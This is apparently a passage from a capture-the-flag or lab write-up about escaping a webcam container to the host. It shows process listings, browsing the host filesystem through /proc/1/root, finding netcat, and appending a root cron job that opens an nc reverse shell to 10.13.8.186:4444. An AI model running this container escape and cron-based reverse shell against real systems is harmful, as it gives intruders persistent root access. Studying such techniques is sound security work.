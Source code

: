 ```bash
S     0  7908   421  1804   452 0:0   22:53 00:00:00 /bin/sh -c sleep 40; /root/test-eth0.sh >/dev/null 2>&1
S     0  7909   421  1804   452 0:0   22:53 00:00:00 /bin/sh -c sleep 50; /root/test-eth0.sh >/dev/null 2>&1
S     0  7915  7908  1796   356 0:0   22:53 00:00:00 sleep 40
S     0  7921  7909  1796   356 0:0   22:53 00:00:00 sleep 50
R     0 11088 21784   888   312 3:0   22:53 00:00:00 ps w l
S     0 21241     1   892   268 0:0   22:49 00:00:00 telnetd -l/bin/sh
S     0 21784 21241   896   360 3:0   22:49 00:00:00 /bin/sh
S     0 21971     1  1476   468 0:0   22:50 00:00:00 webs
```
It sure looks like a lot more stuff is running in here than one might expect, maybe this means there's pollution of the PID namespace. Let's see if we can see anything that the PIDs might also be able to see. Remember: We can always confirm our findings by looking at the contents of the local container we spun up earlier.

```sh
# pwd
pwd
/proc/1

# ls root
ls root
bin         etc         lib32       media       proc        sbin        usr
dev         home        linuxrc     mnt         root        sys         var
emux        lib         lost+found  opt         run         tmp

# ls /    
ls /
bin   dev   etc   home  lib   proc  root  sbin  sys   tmp   usr   var
Ho ho ho, look what we have here, a root folder that's different than the webcam root folder.

A classic go-to is to use a service script that's already being run with elevated privileges to start a reverse shell with those privileges. Only way to see if we can is to try!

# ls /proc/1/root/usr/bin | grep nc
fincore
nc
rsync
truncate
uuencode
We even have a nice copy of nc right here on that box, now for somewhere to plug it...

# pwd
pwd
/proc/1/root/etc/crontabs
# cat root
cat root
* * * * * /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 10; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 20; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 30; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 40; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 50; /root/test-eth0.sh >/dev/null 2>&1
Uh yeah that will work.

# echo "* * * * * /usr/bin/nc 10.13.8.186 4444 -e /bin/sh" >> root
echo "* * * * * /usr/bin/nc 10.13.8.186 4444 -e /bin/sh" >> root
# cat root
cat root
* * * * * /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 10; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 20; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 30; /root/test-eth0.sh >/dev/null 2>&1
```